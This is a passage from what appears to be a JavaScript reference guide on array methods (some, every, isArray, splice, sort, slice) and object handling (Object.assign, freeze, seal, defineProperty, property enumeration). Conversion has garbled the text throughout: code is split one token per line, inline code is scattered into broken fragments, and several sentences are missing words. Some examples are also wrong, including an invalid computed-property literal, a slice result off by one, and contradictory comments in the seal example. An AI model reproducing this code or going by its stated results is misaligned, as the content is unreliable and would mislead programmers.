
,

key2

:

3

,

key3

:

40

,

key4

:

20

}

;

**var**

array

=

\[

\]

;

**for**

(

**var**

people

**in**

object

)

{

array.

push

(

\[

people

,

object

\[

people

\]

\]

)

;

}

Now array is

\[

\[

\"key1\"

,

10

\]

,

\[

\"key2\"

,

3

\]

,

\[

\"key3\"

,

40

\]

,

\[

\"key4\"

,

20

\]

\]

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-29">Section 12.29: Logical connective of values</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Version ≥ 5.1

  
  some                and .                      every
    -

  

. allow a logical connective of Array values.

  
  some   combines the return values with OR, .                   every
    

  

While . combines them with AND.

  
  some
  

  

Examples for .

\[

**false**

,

**false**

\]

.

some

(

**function**

(

value

)

{

**return**

value

;

}

)

;

*// Result: false*

\[

**false**

,

**true**

\]

.

some

(

**function**

(

value

)

{

**return**

value

;

}

)

;

*// Result: true*

\[

**true**

,

**true**

\]

.

some

(

**function**

(

value

)

{

**return**

value

;

}

)

;

*// Result: true*

And examples for

.

every

\[

**false**

,

**false**

\]

.

every

(

**function**

(

value

)

{

**return**

value

;

}

)

;

*// Result: false*

\[

**false**

,

**true**

\]

.

every

(

**function**

(

value

)

{

**return**

value

;

}

)

;

*// Result: false*

\[

**true**

,

**true**

\]

.

every

(

**function**

(

value

)

{

**return**

value

;

}

)

;

*// Result: true*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-30">Section 12.30: Checking if an object is an Array</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  Array                .    isArray                       (    obj
      

  

) returns **true** if the object is an Array, otherwise **false**.

Array

.

isArray

(

\[

\]

)

*// true*

Array

.

isArray

(

\[

1

,

2

,

3

\]

)

*// true*

Array

.

isArray

(

{

}

)

*// false*

Array

.

isArray

(

1

)

*// false*

In most cases you can **instanceof** to check if an object is an
Array.

\[

\]

**instanceof**

Array

;

*// true*

{

}

**instanceof**

Array

;

*// false*

  -
  Array                       .     isArray
   - 

  -

has the an advantage over using a **instanceof** check in that it will
still return **true** even if the
>
prototype of the array has been changed and will return **false** if a
non-arrays prototype was changed to the Array prototype.

**var**

arr

=

\[

\]

;

Object

.

setPrototypeOf

(

arr

,

**null**

)

;

Array

.

isArray

(

arr

)

;

*// true*

arr

**instanceof**

Array

;

*// false*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-31">Section 12.31: Insert an item into an array at a specific index</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  -
  [Array.**prototype**.splice](https://developer.mozilla.org/en/docs/Web/JavaScript/Reference/Global_Objects/Array/splice)
  -

  -

Simple item insertion can be done with method:

arr.

splice

(

index

,

0

,

item

)

;

More advanced variant with multiple arguments and chaining support:

*/\* Syntax:*

*array.insert(index, value1, value2, \..., valueN) \*/*

Array

.

**prototype**

.

insert

=

**function**

(

index

)

{

**this**

.

splice

.

apply

(

**this**

,

\[

index

,

0

\]

.

concat

(

Array

.

**prototype**

.

slice

.

call

(

arguments

,

1

)

)

)

;

**return**

**this**

;

}

;

\[

\"a\"

,

\"b\"

,

\"c\"

,

\"d\"

\]

.

insert

(

2

,

\"X\"

,

\"Y\"

,

\"Z\"

)

.

slice

(

1

,

6

)

;

*// \[\"b\", \"X\", \"Y\", \"Z\", \"c\"\]*

And with array-type arguments merging and chaining support:

*/\* Syntax:*

*array.insert(index, value1, value2, \..., valueN) \*/*

Array

.

**prototype**

.

insert

=

**function**

(

index

)

{

index

=

Math

.

min

(

index

,

**this**

.

length

)

;

arguments.

length

\>

1

&&

**this**

.

splice

.

apply

(

**this**

,

\[

index

,

0

\]

.

concat

(

\[

\]

.

pop

.

call

(

arguments

)

)

)

&&

**this**

.

insert

.

apply

(

**this**

,

arguments

)

;

**return**

**this**

;

}

;

\[

\"a\"

,

\"b\"

,

\"c\"

,

\"d\"

\]

.

insert

(

2

,

\"V\"

,

\[

\"W\"

,

\"X\"

,

\"Y\"

\]

,

\"Z\"

)

.

join

(

\"-\"

)

;

*// \"a-b-V-W-X-Y-Z-c-d\"*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-32">Section 12.32: Sorting multidimensional array</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Given the following array

**var**

array

=

\[

\[

\"key1\"

,

10

\]

,

\[

\"key2\"

,

3

\]

,

\[

\"key3\"

,

40

\]

,

\[

\"key4\"

,

20

\]

\]

;

You can sort it sort it by number(second index)

array.

sort

(

**function**

(

a

,

b

)

{

**return**

a

\[

1

\]

\-

b

\[

1

\]

;

}

)

Version ≥ 6

array.

sort

(

(

a

,

b

)

=\>

a

\[

1

\]

\-

b

\[

1

\]

)

;

This will output

\[

\[

\"key2\"

,

3

\]

,

\[

\"key1\"

,

10

\]

,

\[

\"key4\"

,

20

\]

,

\[

\"key3\"

,

40

\]

\]

Be aware that the sort method operates on the array *in place*. It
changes the array. Most other array methods return a new array,
leaving the original one intact. This is especially important to note
if you use a functional programming style and expect functions to not
have side-effects.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-33">Section 12.33: Test all array items for equality</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  every
  

  

The . method tests if all array elements pass a provided predicate
test.
>
To test all objects for equality, you can use the following code
snippets.
>
\[1, 2, 1\].every(**function**(item, i, list) { **return** item ===
list\[0\]; }); *// false*
>
\[1, 1, 1\].every(**function**(item, i, list) { **return** item ===
list\[0\]; }); *// true*

Version ≥ 6

\[

1

,

1

,

1

\]

.

every

(

(

item

,

i

,

list

)

=\>

item

===

list

\[

0

\]

)

;

*// true*

The following code snippets test for property equality

**let**

data

=

\[

{

name

:

\"alice\"

,

id

:

111

}

,

{

name

:

\"alice\"

,

id

:

222

}

\]

;

data.

every

(

**function**

(

item

,

i

,

list

)

{

**return**

item

===

list

\[

0

\]

;

}

)

;

*// false*

data.

every

(

**function**

(

item

,

i

,

list

)

{

**return**

item.

name

===

list

\[

0

\]

.

name

;

}

)

;

*// true*

Version ≥ 6

data.

every

(

(

item

,

i

,

list

)

=\>

item.

name

===

list

\[

0

\]

.

name

)

;

*// true*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-23">Section 12.34: Copy part of an Array</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

The slice() method returns a copy of a portion of an array.

  
  arr.slice                     (\[    begin            \[,    end
    -  

  

It takes two parameters, \]\]) :
>
**begin**
>
Zero-based index which is the beginning of extraction.
>
**end**
>
Zero-based index which is the end of extraction, slicing up to this
index but it\'s not included.

  
  end          =   arr.length                             \+   end
      

  

If the end is a negative number,.
>
**Example 1**

*// Let\'s say we have this Array of Alphabets*

**var**

arr

=

\[

\"a\"

,

\"b\"

,

\"c\"

,

\"d\"

\...

\]

;

*// I want an Array of the first two Alphabets*

**var**

newArr

=

arr.

slice

(

0

,

2

)

;

*// newArr === \[\"a\", \"b\"\]*

**Example 2**

*// Let\'s say we have this Array of Numbers*

*// and I don\'t know it\'s end*

**var**

arr

=

\[

0

,

1

,

2

,

3

,

4

,

5

,

6

,

7

,

8

,

9

\...

\]

;

*// I want to slice this Array starting from*

*// number 5 to its end*

**var**

newArr

=

arr.

slice

(

4

)

;

*// newArr === \[5, 6, 7, 8, 9\...\]*

# Chapter 13: Objects

  
  **for** **in**
  

  

**Property Description** value The value to assign to the property.
writable Whether the value of the property can be changed or not.
enumerable Whether the property will be enumerated in loops or not.
configurable Whether it will be possible to redefine the property
descriptor or not. **get** A function to be called that will return
the value of the property. **set** A function to be called when the
property is assigned a value.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch13-1">Section 13.1: Shallow cloning</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Version ≥ 6

  
  Object                           .     assign
  - - -

  

ES6\'s () function can be used to copy all of the **enumerable**
properties from an existing Object instance to a new one.

**const**

existing

=

{

a

:

1

,

b

:

2

,

c

:

3

}

;

**const**

clone

=

Object

.

assign

(

{

}

,

existing

)

;

This includes Symbol properties in addition to String ones.
>
[Object rest/spread
destructuring](https://github.com/tc39/proposal-object-rest-spread)
which is currently a stage 3 proposal provides an even simpler way to
create shallow clones of Object instances:

**const**

existing

=

{

a

:

1

,

b

:

2

,

c

:

3

}

;

**const**

{

\...

clone

}

=

existing

;

  
  hasOwnProperty
  

  

If you need to support older versions of JavaScript, the
most-compatible way to clone an Object is by manually iterating over
its properties and filtering out inherited ones using .().

**var**

existing

=

{

a

:

1

,

b

:

2

,

c

:

3

}

;

**var**

clone

=

{

}

;

**for**

(

**var**

prop

**in**

existing

)

{

**if**

(

existing.

hasOwnProperty

(

prop

)

)

{

clone

\[

prop

\]

=

existing

\[

prop

\]

;

}

}

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch13-2">Section 13.2: Object.freeze</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Version ≥ 5

  
  Object                           .     freeze
  - - -

  

makes an object immutable by preventing the addition of new properties,
the removal of existing

properties, and the modification of the enumerability,
configurability, and writability of existing properties. It also
prevents the value of existing properties from being changed. However,
it does not work recursively which means that child objects are not
automatically frozen and are subject to change.
>
The operations following the freeze will fail silently unless the code
is running in strict mode. If the code is in strict

mode, a

TypeError

will be thrown.

**var**

obj

=

{

foo

:

\'foo\'

,

bar

:

\[

1

,

2

,

3

\]

,

baz

:

{

foo

:

\'nested-foo\'

}

}

;

Object

.

freeze

(

obj

)

;

*// Cannot add new properties*

obj.

newProperty

=

**true**

;

*// Cannot modify existing values or their descriptors*

obj.

foo

=

\'not foo\'

;

Object

.

defineProperty

(

obj

,

\'foo\'

,

{

writable

:

**true**

}

)

;

*// Cannot delete existing properties*

**delete**

obj.

foo

;

*// Nested objects are not frozen*

obj.

bar

.

push

(

4

)

;

obj.

baz

.

foo

=

\'new foo\'

;

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch13-3">Section 13.3: Object cloning</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

When you want a complete copy of an object (i.e. the object properties
and the values inside those properties, etc\...), that is called
**deep cloning**.

Version ≥ 5.1

  
  JSON.parse
  

  

If an object can be serialized to JSON, then you can create a deep
clone of it with a combination of and

  
  JSON.stringify
  

  

:

**var**

existing

=

{

a

:

1

,

b

:

{

c

:

2

}

}

;

**var**

copy

=

JSON.

parse

(

JSON.

stringify

(

existing

)

)

;

existing.

b

.

c

=

3

;

*// copy.b.c will not change*

  
  JSON.stringify   will convert Date objects to ISO-format string     JSON.parse
                   representations, but                               
  -  

  

Note that will not convert the string back into a Date.

There is no built-in function in JavaScript for creating deep clones,
and it is not possible in general to create deep clones for every
object for many reasons. For example,

objects can have non-enumerable and hidden properties which cannot be
detected. object getters and setters cannot be copied. objects can
have a cyclic structure. function properties can depend on state in a
hidden scope.

Assuming that you have a \"nice\" object whose properties only contain
primitive values, dates, arrays, or other \"nice\" objects, then the
following function can be used for making deep clones. It is a
recursive function that can detect objects with a cyclic structure and
will throw an error in such cases.
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
<!-- {width="7.486805555555556in" height="7.639583333333333in"} -->

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch13-4">Section 13.4: Object properties iteration</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

You can access each property that belongs to an object with this loop

**for**

(

**var**

property

**in**

object

)

{

*// always check if an object has a property*

**if**

(

object.

hasOwnProperty

(

property

)

)

{

*// do stuff*

}

}

You should include the additional check for hasOwnProperty because an
object may have properties that are inherited from the object\'s base
class. Not performing this check can raise errors.

Version ≥ 5

  
  Object                                 .      keys
    

  

  -
  Array          .   map      or       Array          .   forEach
        

  -

You can also use function which return an Array containing all
properties of an object and then you can loop through this array with
function.

**var**

obj

=

{

0

:

\'a\'

,

1

:

\'b\'

,

2

:

\'c\'

}

;

Object

.

keys

(

obj

)

.

map

(

**function**

(

key

)

{

console.

log

(

key

)

;

}

)

;

*// outputs: 0, 1, 2*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-35">Section 13.5: Object.assign</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

The
[Object.assign()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/assign)
method is used to copy the values of all enumerable own properties
from one or more source objects to a target object. It will return the
target object.
>
Use it to assign values to an existing object:

**var**

user

=

{

firstName

:

\"John\"

}

;

Object

.

assign

(

user

,

{

lastName

:

\"Doe\"

,

age

:

39

}

)

;

console.

log

(

user

)

;

*// Logs: {firstName: \"John\", lastName: \"Doe\", age: 39}*

Or to create a shallow copy of an object:

**var**

obj

=

Object

.

assign

(

{

}

,

user

)

;

console.

log

(

obj

)

;

*// Logs: {firstName: \"John\", lastName: \"Doe\", age: 39}*

Or merge many properties from multiple objects to one:

**var**

obj1

=

{

a

:

1

}

;

**var**

obj2

=

{

b

:

2

}

;

**var**

obj3

=

{

c

:

3

}

;

**var**

obj

=

Object

.

assign

(

obj1

,

obj2

,

obj3

)

;

console.

log

(

obj

)

;

*// Logs: { a: 1, b: 2, c: 3 }*

console.

log

(

obj1

)

;

*// Logs: { a: 1, b: 2, c: 3 }, target object itself is changed*

Primitives will be wrapped, null and undefined will be ignored:

**var**

var_1

=

\'abc\'

;

**var**

var_2

=

**true**

;

**var**

var_3

=

10

;

**var**

var_4

=

Symbol

(

\'foo\'

)

;

**var**

obj

=

Object

.

assign

(

{

}

,

var_1

,

**null**

,

var_2

,

**undefined**

,

var_3

,

var_4

)

;

console.

log

(

obj

)

;

*// Logs: { \"0\": \"a\", \"1\": \"b\", \"2\": \"c\" }*

Note, only string wrappers can have own enumerable properties

Use it as reducer: (merges an array to an object)
>
**return** users.reduce((result, user) =\Object.assign({},
{\[user.id\]: user})

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-36">Section 13.6: Object rest/spread (\...)</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Version \7

  
  Object       .   assign       ({},     obj1       ,   \...     ,   objn
      -    -

  

Object spreading is just syntactic sugar for );
>
It is done with the \... operator:

**let**

obj

=

{

a

:

1

}

;

**let**

obj2

=

{

\...

obj

,

b

:

2

,

c

:

3

}

;

console.

log

(

obj2

)

;

*// { a: 1, b: 2, c: 3 };*

  
  Object                           .     assign
  - - -

  

As it does **shallow** merging, not deep merging.

**let**

obj3

=

{

\...

obj

,

b

:

{

c

:

2

}

}

;

console.

log

(

obj3

)

;

*// { a: 1, b: { c: 2 } };*

**NOTE**: [This
specification](https://github.com/sebmarkbage/ecmascript-rest-spread)
is currently in [stage
3](http://www.2ality.com/2015/11/tc39-process.html)

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch13-7">Section 13.7: Object.defineProperty</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Version ≥ 5

It allows us to define a property in an existing object using a
property descriptor.

**var**

obj

=

{

}

;

Object

.

defineProperty

(

obj

,

\'foo\'

,

{

value

:

\'foo\'

}

)

;

console.

log

(

obj.

foo

)

;

Console output

foo

  -
  Object               .   defineProperty
    

  -

can be called with the following options:
>
Object.defineProperty(obj, \'nameOfTheProperty\', { value:
valueOfTheProperty, writable: **true**, *// if false, the property is
read-only* configurable : **true**, *// true means the property can be
changed later* enumerable : **true** *// true means property can be
enumerated such as in a for..in loop* });

  -
  Object             .   defineProperties
  -  

  -

allows you to define multiple properties at a time.

**var**

obj

=

{

}

;

Object

.

defineProperties

(

obj

,

{

property1

:

{

value

:

**true**

,

writable

:

**true**

}

,

property2

:

{

value

:

\'Hello\'

,

writable

:

**false**

}

}

)

;

## Section 13.8: Accesor properties (get and set)

Version ≥ 5

Treat a property as a combination of two functions, one to get the
value from it, and another one to set the value in it.
>
The **get** property of the property descriptor is a function that
will be called to retrieve the value from the property.
>
The **set** property is also a function, it will be called when the
property has been assigned a value, and the new value will be passed
as an argument.
>
You cannot assign a value or writable to a descriptor that has **get**
or **set**

**var**

person

=

{

name

:

\"John\"

,

surname

:

\"Doe\"

}

;

Object

.

defineProperty

(

person

,

\'fullName\'

,

{

**get**

:

**function**

(

)

{

**return**

**this**

.

name

\+

\" \"

\+

**this**

.

surname

;

}

,

**set**

:

**function**

(

value

)

{

\[

**this**

.

name

,

**this**

.

surname

\]

=

value.

split

(

\" \"

)

;

}

}

)

;

console.

log

(

person.

fullName

)

;

*// -\\"John Doe\"*

person.

surname

=

\"Hill\"

;

console.

log

(

person.

fullName

)

;

*// -\\"John Hill\"*

person.

fullName

=

\"Mary Jones\"

;

console.

log

(

person.

name

)

*// -\\"Mary\"*

## Section 13.9: Dynamic / variable property names

Sometimes the property name needs to be stored into a variable. In
this example, we ask the user what word needs to be looked up, and
then provide the result from an object I\'ve named dictionary.

**var**

dictionary

=

{

lettuce

:

\'a veggie\'

,

banana

:

\'a fruit\'

,

tomato

:

\'it depends on who you ask\'

,

apple

:

\'a fruit\'

,

Apple

:

\'Steve Jobs rocks!\'

*// properties are case-sensitive*

}

**var**

word

=

prompt

(

\'What word would you like to look up today?\'

)

**var**

definition

=

dictionary

\[

word

\]

alert

(

word

\+

\'

**\\n**

**\\n**

\'

\+

definition

)

Note how we are using \[\] bracket notation to look at the variable
named word; if we were to use the traditional . notation, then it
would take the value literally, hence:
>
console.log(dictionary.word) *// doesn\'t work because word is taken
literally and dictionary has no field named \`word\`*
console.log(dictionary.apple) *// it works! because apple is taken
literally*
>
console.log(dictionary\[word\]) *// it works! because word is a
variable, and the user perfectly typed in one of the words from our
dictionary when prompted*
>
console.log(dictionary\[apple\]) *// error! apple is not defined (as a
variable)*
>
You could also write literal values with \[\] notation by replacing
the variable word with a string \'apple\'. See \[Properties with
special characters or reserved words\] example.
>
You can also set dynamic properties with the bracket syntax:

**var**

property

=

\"test\"

;

**var**

obj

=

{

\[

property

\]

=

1

;

}

;

console.

log

(

obj.

test

)

;

*//1*

It does the same as:

**var**

property

=

\"test\"

;

**var**

obj

=

{

}

;

obj

\[

property

\]

=

1

;

## Section 13.10: Arrays are Objects

  
  form.elements
  

  

**Disclaimer:** Creating array-like objects is not recommend. However,
it is helpful to understand how they work, especially when working
with DOM. This will explain why regular array operations don\'t work
on DOM objects returned from many DOM document functions. (i.e.
querySelectorAll, ) Supposing we created the following object which
has some properties you would expect to see in an Array.

**var**

anObject

=

{

foo

:

\'bar\'

,

length

:

\'interesting\'

,

\'0\'

:

\'zero!\'

,

\'1\'

:

\'one!\'

}

;

Then we\'ll create an array.

**var**

anArray

=

\[

\'zero.\'

,

\'one.\'

\]

;

Now, notice how we can inspect both the object, and the array in the
same way.
>
console.log(anArray\[0\], anObject\[0\]); *// outputs: zero. zero!*
console.log(anArray\[1\], anObject\[1\]); *// outputs: one. one!*
>
console.log(anArray.length, anObject.length); *// outputs: 2
interesting*
>
console.log(anArray.foo, anObject.foo); *// outputs: undefined bar*
>
Since anArray is actually an object, just like anObject, we can even
add custom wordy properties to anArray

**Disclaimer:**

Arrays with custom properties are not usually recommended as they can be
confusing, but it

can be useful in advanced cases where you need the optimized functions
of an Array. (i.e. jQuery objects)

anArray.

foo

=

\'it works!\'

;

console.

log

(

anArray.

foo

)

;

We can even make anObject to be an array-like object by adding a
length.

anObject.

length

=

2

;

Then you can use the C-style **for** loop to iterate over anObject
just as if it were an Array. See Array Iteration

  
  Array                   .    **prototype**
    -

  

Note that anObject is only an **array-like** object. (also known as a
List) It is not a true Array. This is important, because functions
like push and forEach (or any convenience function found in ) will not
work by default on array-like objects.

  
  form.elements
  

  

Many of the DOM document functions will return a List (i.e.
querySelectorAll, ) which is similar to the array-like anObject we
created above. See Converting Array-like Objects to Arrays
>
console.log(**typeof** anArray == \'object\', **typeof** anObject ==
\'object\'); *// outputs: true true* console.log(anArray
**instanceof** Object, anObject **instanceof** Object); *// outputs:
true true* console.log(anArray **instanceof** Array, anObject
**instanceof** Array); *// outputs: true false*
console.log(Array.isArray(anArray), Array.isArray(anObject)); *//
outputs: true false*

## Section 13.11: Object.seal

Version ≥ 5

  
  Object                                 .      seal
    

  

prevents the addition or removal of properties from an object. Once an
object has been sealed its

  
  Object                           .     freeze
  - - -

  

property descriptors can\'t be converted to another type. Unlike it
does allow properties to be edited.
>
Attempts to do this operations on a sealed object will fail silently

**var**

obj

=

{

foo

:

\'foo\'

,

bar

:

**function**

(

)

{

**return**

\'bar\'

;

}

}

;

Object

.

seal

(

obj

)

obj.

newFoo

=

\'newFoo\'

;

obj.

bar

=

**function**

(

)

{

**return**

\'foo\'

}

;

obj.

newFoo

;

*// undefined*

obj.

bar

(

)

;

*// \'foo\'*

*// Can\'t make foo an accessor property*

Object

.

defineProperty

(

obj

,

\'foo\'

,

{

**get**

:

**function**

(

)

{

**return**

\'newFoo\'

;

}

}

)

;

*// TypeError*

*// But you can make it read only*

Object

.

defineProperty

(

obj

,

\'foo\'

,

{

writable

:

**false**

}

)

;

*// TypeError*

obj.

foo

=

\'newFoo\'

;

obj.

foo

;

*// \'foo\';*

In strict mode these operations will throw a

TypeError

(

**function**

(

)

{

\'use strict\'

;

**var**

obj

=

{

foo

:

\'foo\'

}

;

Object

.

seal

(

obj

)

;

obj.

newFoo

=

\'newFoo\'

;

*// TypeError*

}

(

)

)

;

## Section 13.12: Convert object\'s values to array

Given this object:

**var**

obj

=

{

a

:

\"hello\"

,

b

:

\"this is\"

,

c

:

\"javascript!\"

,

}

;

You can convert its values to an array by doing:

**var**

array

=

Object

.

keys

(

obj

)

.

map

(

**function**

(

key

)

{

**return**

obj

\[

key

\]

;

}

)

;

console.

log

(

array

)

;

*// \[\"hello\", \"this is\", \"javascript!\"\]*

## Section 13.13: Retrieving properties from an object

***Characteristics of properties :***

Properties that can be retrieved from an *object* could have the
following characteristics,
>
Enumerable Non - Enumerable own
>
While creating the properties using
[*Object.defineProperty(ies)*](https://developer.mozilla.org/en/docs/Web/JavaScript/Reference/Global_Objects/Object/defineProperty),
we could set its characteristics except *\"own\"*.
>
Properties which are available in the direct level not in the
*prototype* level (\_\_proto\_\_) of an object are called as *own*
properties.

  
  Object            .   defindProperty                          (   ies
      

  

And the properties that are added into an object without using ) will
don\'t have its enumerable characteristic. That means it be considered
as true.

***Purpose of enumerability :***

The main purpose of setting enumerable characteristics to a property
is to make the particular property\'s availability when retrieving it
from its object, by using different programmatical methods. Those
different methods will be discussed deeply below.

***Methods of retrieving properties :***

Properties from an object could be retrieved by the following methods,

  -
  [**for**..**in**](https://developer.mozilla.org/en/docs/Web/JavaScript/Reference/Statements/for...in)
  -

  -

1\. loop
>
This loop is very useful in retrieving enumerable properties from an
object. Additionally this loop will retrieve enumerable own properties
as well as it will do the same retrieval by traversing through the
prototype chain until it sees the prototype as null.

*//Ex 1 : Simple data*

**var**

x

=

{

a

:

10

,

b

:

3

}

,

props

=

\[

\]

;

**for**

(

prop

**in**

x

)

{

props.

push

(

prop

)

;

}

console.

log

(

props

)

;

*//\[\"a\",\"b\"\]*

*//Ex 2 : Data with enumerable properties in prototype chain*

**var**

x

=

{

a

:

10

,

\_\_proto\_\_

:

{

b

:

10

}

}

,

props

=

\[

\]

;

**for**

(

prop

**in**

x

)

{

props.

push

(

prop

)

;

}

console.

log

(

props

)

;

*//\[\"a\",\"b\"\]*

*//Ex 3 : Data with non enumerable properties*

**var**

x

=

{

a

:

10

}

,

props

=

\[

\]

;

Object

.

defineProperty

(

x

,

\"b\"

,

{

value

:

5

,

enumerable

:

**false**

}

)

;

**for**

(

prop

**in**

x

)

{

props.

push

(

prop

)

;

}

console.

log

(

props

)

;

*//\[\"a\"\]*

  
  [Object](https://developer.mozilla.org/en/docs/Web/JavaScript/Reference/Global_Objects/Object/keys)   [.](https://developer.mozilla.org/en/docs/Web/JavaScript/Reference/Global_Objects/Object/keys)   [keys](https://developer.mozilla.org/en/docs/Web/JavaScript/Reference/Global_Objects/Object/keys)
  -  

  

2.[()](https://developer.mozilla.org/en/docs/Web/JavaScript/Reference/Global_Objects/Object/keys)
function

  -
  [**for**..**in**](https://developer.mozilla.org/en/docs/Web/JavaScript/Reference/Statements/for...in)
  -

  -

  -
  [Object](https://developer.mozilla.org/en/docs/Web/JavaScript/Reference/Global_Objects/Object/hasOwnProperty)   [.](https://developer.mozilla.org/en/docs/Web/JavaScript/Reference/Global_Objects/Object/hasOwnProperty)   [**prototype**](https://developer.mozilla.org/en/docs/Web/JavaScript/Reference/Global_Objects/Object/hasOwnProperty)   [.](https://developer.mozilla.org/en/docs/Web/JavaScript/Reference/Global_Objects/Object/hasOwnProperty)   [hasOwnProperty](https://developer.mozilla.org/en/docs/Web/JavaScript/Reference/Global_Objects/Object/hasOwnProperty)
  -    -

  -

This function was unveiled as a part of ECMAScript 5. It is used to
retrieve enumerable own properties from an object. Prior to its
release people used to retrieve own properties from an object by
combining loop and
[()](https://developer.mozilla.org/en/docs/Web/JavaScript/Reference/Global_Objects/Object/hasOwnProperty)
function.

*//Ex 1 : Simple data*

**var**

x

=

{

a

:

10

,

b

:

3

}

,

props

;

props

=

Object

.

keys

(

x

)

;

console.

log

(

props

)

;

*//\[\"a\",\"b\"\]*

*//Ex 2 : Data with enumerable properties in prototype chain*

**var**

x

=

{

a

:

10

,

\_\_proto\_\_

:

{

b

:

10

}

}

,

props

;

props

=

Object

.

keys

(

x

)

;

console.

log

(

props

)

;

*//\[\"a\"\]*

*//Ex 3 : Data with non enumerable properties*

**var**

x

=

{

a

:

10

}

,

props

;

Object

.

defineProperty

(

x

,

\"b\"

,

{

value

:

5

,

enumerable

:

**false**

}

)

;

props

=

Object

.

keys

(

x

)

;

console.

log

(

props

)

;

*//\[\"a\"\]*

  
